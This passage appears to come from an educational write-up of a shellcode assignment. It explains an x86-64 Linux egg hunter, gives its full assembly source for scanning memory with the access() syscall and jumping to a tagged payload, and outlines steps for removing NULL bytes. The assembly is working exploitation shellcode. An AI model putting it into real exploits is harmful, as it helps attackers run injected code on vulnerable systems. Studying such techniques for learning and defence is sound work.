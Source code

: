 - While a memory page mapped for the process is not found, a bucle will be incrementing the value of **RDX** by `0x1000` (page size) until `sys_access` finds that the page is accessible. From here, **RDX** is used to check each memory position in the page for the Egg.
- Once the Egg is found, have to check the next 4 bytes to see if also they contain the Egg. If both Eggs been found, then the code jumps to memory position where the found shellcode is to run it. **RDI** is pointing to this memory position as per the explanation before. Also doing this, we can use any value for the Egg, not requiring it to be opcodes for real ASM instructions

The following code implements the Egg Hunter Shellcode. The code does not remove NULLs at this time, it will be done later.
```asm
global _start
section .text

EGG equ 'kaki'

_start:

	xor rdx, rdx

next_mem_page:

	or dx, 0xfff		        ; 0xfff == 4095. To jump next page

next_mem_position:

	inc rdx			        ; Two uses: 
      				        ; 	1) Next memory position when checking memory positions into a page
			                ;	2) Place pointer at the first byte of a memory page
	lea rdi, [rdx + 8]	        ; Stores memory position after the "eggs" 

	mov rax, 0x15		        ; Syscall number for access()
	xor rsi, rsi
	syscall		            	; Test if mem position is accessible
				                  ;   RDI -> Address to check
				                  ;   RSI -> 0
	cmp rax, 0xf2		        ; EFAULT?
	jz next_mem_page	        ; Yes, then check next page

	mov rax, EGG	        	; Page accessible, let's check if we find the egg
	mov rdi, rdx	        	; Put in RDI the memory position to check if has the egg 
	scasd			        ; We compare. scasd increments RDI
	jnz next_mem_position	        ; Not found the egg, jump to next memory position in the page
	scasd			        ; Found 4 bytes of the egg, let's check if next 4 byte also have the egg
	jnz next_mem_position	        ; Not found second egg, jump again to check next memory position
	
	jmp rdi			        ; EGG found. Jump to execute it's shellcode. 
				        ; The RDI already pointing to the start of the shellcode due scasd increments
```
#### NULLs Off and Shellcode Size
For the ASM code, it's time now to remove the NULLs and try to reduce it's shellcode size as much as possible. The process will be the same one done in previous assignments:
- Use `objdump -M intel -d EggHunter.o` to review NULLs and opcodes
- Replace instructions with ones that do the same but that do not add NULLs
- Replace instructions, if possible, by ones using less bytes in the opcodes
- Hardcode the EGG value in the code
